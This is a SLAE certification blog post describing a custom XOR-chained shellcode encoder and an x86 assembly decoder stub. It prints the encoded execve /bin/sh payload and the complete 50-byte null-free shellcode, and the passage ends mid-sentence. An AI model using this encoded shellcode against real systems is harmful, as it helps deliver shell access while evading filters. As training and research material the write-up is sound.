

# 4. Shellcode Encoder/Decoder

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a custom encoding scheme with a script to encode a payload and a decoder written in assembler to decode and execute the payload. The goal is to avoid null bytes while making the decoder as small as possible.

## Solution

The custom encoding scheme will take a set byte value, _IV_, and XOR the first byte of the payload, _P_, with it (``P'_0 = P_0 ^ IV``). The encoder will then XOR the next byte of the payload with the modified first byte, the next byte with the modified second byte, and so on (``P'_i = P_i ^ P'_i-1``). The decoder will simply perform these operations in reverse.

To make the decoder written in assembler a bit simpler, the encoder will start from the back, so the decoder can start from the front. The encoder is written in Python 3 and can be found here: [encoder.py](https://github.com/SpacePlant/slae32/blob/main/encoder.py)

The encoder is run with an IV of 42 on the raw bytes of the "execve-stack" payload (/bin/sh version):

```sh
$ python3 encoder.py 42 < execve-stack_raw > execve-stack_encoded
```

The decoder will get the address of the encoded payload:

```nasm
global _start

payload_size equ 25 ; payload size without iv

section .text

_start:
    ; Copy the address of the encoded payload to ESI.
    jmp call_decoder

...

call_decoder:
    call decoder
    payload: db 0x46, 0x77, 0xb7, 0xe7, 0x8f, 0xa0, 0x8f, 0xfc, 0x94, 0xfc, 0xd3, 0xb1, 0xd8, 0xb6, 0x3f, 0xdc, 0x8c, 0x05, 0xe7, 0xb4, 0x3d, 0xdc, 0x6c, 0x67, 0xaa, 0x2a
```

It will then loop through the encoded payload and decode the bytes one by one and finally jump to the decoded payload:

```nasm
decoder:
    pop esi
    ; Initialize ECX to the payload size to use it as a loop counter.
    xor ecx, ecx
    mov cl, payload_size
    xor eax, eax

decode:
    ; Decode a byte of the payload and loop.
    mov al, [esi + 1]
    xor [esi], al
    inc esi
    loop decode
    
    ; Execute the payload.
    jmp payload
```

The complete source code can be found here: [decoder.nasm](https://github.com/SpacePlant/slae32/blob/main/decoder.nasm)

## Results

The assembled decoder is 50 bytes including the encoded payload (25 bytes) and the IV (1 byte) and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d decoder | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\xeb\x11\x5e\x31\xc9\xb1\x19\x31\xc0\x8a\x46\x01\x30\x06\x46\xe2\xf8\xeb\x05\xe8\xea\xff\xff\xff\x46\x77\xb7\xe7\x8f\xa0\x8f\xfc\x94\xfc\xd3\xb1\xd8\xb6\x3f\xdc\x8c\x05\xe7\xb4\x3d\xdc\x6c\x67\xaa\x2a
$ echo $shellcode | tr -cd 'x' | wc -c
50
```

The decoder is executed successfully using the C template:


